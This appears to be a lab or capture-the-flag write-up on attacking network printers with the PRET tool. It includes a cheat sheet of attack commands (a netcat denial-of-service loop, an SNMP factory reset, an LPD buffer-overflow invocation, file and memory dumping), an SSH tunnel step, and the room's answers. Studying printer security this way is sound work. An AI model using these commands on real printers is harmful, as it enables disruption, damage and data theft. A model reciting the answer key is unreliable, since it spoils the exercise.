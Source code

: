 
# Printer Hacking 101

The reason behind the printers' vulnerability which effected those 50,000 printers, was simply an open IPP port. 

"The Internet Printing Protocol (IPP) - is a specialized Internet protocol for communication between client devices and printers. It allows clients to submit one or more print jobs to the printer or print server, and perform tasks such as querying the status of a printer, obtaining the status of print jobs, or canceling individual print jobs."

When an IPP port is open to the internet, it is possible for anyone to print to the printer or even transfer malicious data through it (using it as a middleman for attacks). 

A recent study by VARIoT (Vulnerability and Attack Repository for IoT) showed that there are still around 80 thousand vulnerable printers opened to the world. Most of them appear to run the CUPS server (which is a simple UNIX printing system). 


- What port does IPP run on?
- `631`



## Locating and Exploiting local network printers 

- Github: https://github.com/RUB-NDS/PRET 

```
git clone https://github.com/RUB-NDS/PRET && cd PRET
python2 -m pip install colorama pysnmP
```

- run `python pret.py` for locating local printers in your local network


## Exploiting

There are exactly three options you need to try when exploiting a printer using PRET:
1. ps (Postscript)
2. pjl (Printer Job Language)
3. pcl (Printer Command Language)

### simple use

```
python pret.py {IP} pjl
python pret.py laserjet.lan ps
python pret.py /dev/usb/lp0 pcl  # works if you have a printer connected to your computer already
```





### Printer Security Testing Cheat Sheet

| Category                  | Attack                  | Protocol    | Testing                                                     |
|---------------------------|-------------------------|-------------|-------------------------------------------------------------|
| Denial of Service         | Transmission channel    | TCP         | while true; do nc printer 9108; done                        |
| Denial of Service         | Document processing     | PS / PJL    | PRET: disable, hang, offline                                |
| Denial of Service         | Physical damage         | PS / PJL    | PRET: destroy                                               |
| Privilege Escalation      | Factory defaults        | SNMP        | snmpset -v1 -c public printer                               |
|                           |                         |             |  1.3.6.1.2.1.43.5.1.1.3.1 i 6                               |
| Privilege Escalation      | Factory defaults        | PML / PSL   | PRET: reset                                                 |
| Privilege Escalation      | Accounting bypass       | TCP         | connect to printer directly (no server)                     |
| Privilege Escalation      | Accounting bypass       | IPP         | checks username w/o authorization                           |
| Privilege Escalation      | Accounting bypass       | PS          | checks if PostScript is preprocessed                        |
| Privilege Escalation      | Accounting bypass       | PJL         | PRET: pagecount                                             |
| Privilege Escalation      | Fax & Scanner           | multiple    | install printer driver & use fax/scan                       |
| Print job access          | print job retention     | PS          | PRET: capture                                               |
| Print job access          | print job manipulation  | PS          | PRET: cross, overlay, replace                               |
| Information disclosure    | Memory access           | PJL         | PRET: nvram dump                                            |
| Information disclosure    | File System Access      | PS / PJL    | PRET: fuzz, ls, get, put                                    |
| Information disclosure    | Credential disclosure   | PS / PJL    | PRET: lock, unlock                                          |
| Code Execution            | Buffer overflows        | PJL         | PRET: flood                                                 |
| Code Execution            | Buffer overflows        | LPD         | ./lpdtest.py printer in "'`python -c 'print "x"*3800`'"     |
| Code Execution            | Firmware updates        | PJL         | flip a bit, check if modified firmware accepted             |
| Code Execution            | Software packages       | multiple    | obtain a SDK and write your own app                         |


- PRET uses port 9000 by default

An ssh access to the machine allows you to set up ssh tunneling, opening all CUPS features and providing you an ability to use attached printers. SSH password can be easily brute-forced (weak password).

- `ssh printer@MACHINE_IP -T -L 3631:localhost:631`


---

How would a simple printer TCP DoS attack look as a one-line command?
- `while true; do nc printer 9100; done`

What attack are printers often vulnerable to which involves sending more and more information until a pre-allocated buffer size is surpassed?

- `Buffer Overflow`


Connect to the printer per the instructions above. Where's the Fox_Printer located?

- `Skidy's basement`



What is the size of a test sheet?

- `1k`




